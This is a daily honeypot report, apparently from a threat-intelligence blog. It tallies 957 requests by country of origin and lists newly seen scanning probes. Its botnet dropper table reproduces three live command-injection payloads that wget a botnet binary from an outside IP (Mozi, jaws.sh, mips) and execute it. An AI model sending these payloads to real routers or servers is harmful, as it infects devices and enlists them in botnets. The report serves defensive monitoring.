 ```yaml
---
title: "Report: 2025-05-10 "
date: 2025-05-10
desciption: "Report: 2025-05-10" 
tags: [repport, daily]
---
```



# Daily Report: 2025-05-10 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 3 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 26 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 957 requests were recorded during the day, originating from 3 different countries, with a peak of 171 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |
| MD               | Israel             |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                     |
|:----------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 196.251.72.142  | GET /shell?cd+/tmp;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/jaws.sh;chmod+777+*;./jaws.sh HTTP/1.1                                                                       |
| 103.48.64.43    | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://103.48.64.43:42836/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
| 103.252.137.107 | target_addr=1.1.1.1%7cecho%20%24(cd%20%2Ftmp%3B%20wget%20http%3A%2F%2F103.252.137.107%2Fdwrioej%2Fmips%3B%20chmod%20777%20mips%3B%20.%2Fmips)&wanif=1_INTERNET_R_VID_100    |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                        |
|----:|----------------------:|:---------------------------------------------------------------------------------------------------------------|
| 152 |                     1 | \x04\x01\x01\xBB\x17\xD7\x00\x88admin:password\x00                                                             |
| 154 |                     1 | GET /bJdL HTTP/1.1                                                                                             |
| 155 |                     1 | GET /dHz7 HTTP/1.1                                                                                             |
| 175 |                     1 | GET /App/test HTTP/1.1                                                                                         |
| 176 |                     1 | GET /Admin/test HTTP/1.1                                                                                       |
| 177 |                     1 | GET /Media/test HTTP/1.1                                                                                       |
| 178 |                     1 | GET /Vendor/test HTTP/1.1                                                                                      |
| 179 |                     1 | GET /Server/test HTTP/1.1                                                                                      |
| 180 |                     1 | GET /Staging/test HTTP/1.1                                                                                     |
| 181 |                     1 | GET /Twilio/test HTTP/1.1                                                                                      |
| 182 |                     1 | GET /Crm/test HTTP/1.1                                                                                         |
| 183 |                     1 | GET /Config/test HTTP/1.1                                                                                      |
| 185 |                     1 | \xA0\x05\x00`\x00\x00\x00\x00\xC4\xA3\xAFH\x99V\xB6\xB4\x8F\x85\xC8\xA0ME\x0EA\x05\x02\x00\x01\x00\x00\xA1\xAA |
| 187 |                     1 | GET /config/index?time=1746885677249190742 HTTP/1.1                                                            |
| 188 |                     1 | GET /api/bin/440393?time=1746885939435011026 HTTP/1.1                                                          |
| 189 |                     1 | POST /api/user/binLookup?time=1746885940212541345 HTTP/1.1                                                     |
| 199 |                     1 | GET /index.php?phpinfo HTTP/1.1                                                                                |
| 203 |                     1 | GET /phpsysinfo/ HTTP/1.1                                                                                      |
| 204 |                     1 | GET /phpsysinfo/test HTTP/1.1                                                                                  |
| 208 |                     1 | GET /test.php?phpinfo HTTP/1.1                                                                                 |
| 210 |                     1 | GET /system/phpinfo.php HTTP/1.1                                                                               |
| 213 |                     1 | GET /showphpinfo.php HTTP/1.1                                                                                  |
| 235 |                     1 | GET /sI5l HTTP/1.1                                                                                             |
| 236 |                     1 | GET /JyHQ HTTP/1.1                                                                                             |
| 237 |                     1 | Get /admin/login.asp HTTP/1.1                                                                                  |
| 238 |                     1 | POST /boaform/admin/formTracert HTTP/1.1                                                                       |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   171 | US                 |
|  1 |                   153 | NL                 |
|  2 |                   106 | GB                 |
|  3 |                    70 | CN                 |
|  4 |                    62 | CH                 |
|  5 |                    49 | RU                 |
|  6 |                    43 | PL                 |
|  7 |                    40 | DE                 |
|  8 |                    30 | MD                 |
|  9 |                    26 | SC                 |
| 10 |                    25 | UA                 |
| 11 |                    23 | CA                 |
| 12 |                    19 | LT                 |
| 13 |                    19 | KR                 |
| 14 |                    14 | FR                 |
| 15 |                    11 | NP                 |
| 16 |                    10 | GH                 |
| 17 |                     9 | HR                 |
| 18 |                     9 | IN                 |
| 19 |                     8 | JP                 |
| 20 |                     6 | IL                 |
| 21 |                     5 | HK                 |
| 22 |                     5 | VN                 |
| 23 |                     5 | ZA                 |
| 24 |                     4 | VE                 |
| 25 |                     4 | BE                 |
| 26 |                     4 | SG                 |
| 27 |                     3 | PT                 |
| 28 |                     3 | AU                 |
| 29 |                     3 | AO                 |
| 30 |                     2 | GE                 |
| 31 |                     2 | ID                 |
| 32 |                     2 | ZM                 |
| 33 |                     2 | AR                 |
| 34 |                     2 | BR                 |
| 35 |                     2 | AT                 |
| 36 |                     1 | EC                 |
| 37 |                     1 | SA                 |
| 38 |                     1 | IR                 |
| 39 |                     1 | TR                 |
| 40 |                     1 | KH                 |
| 41 |                     1 | CZ                 |

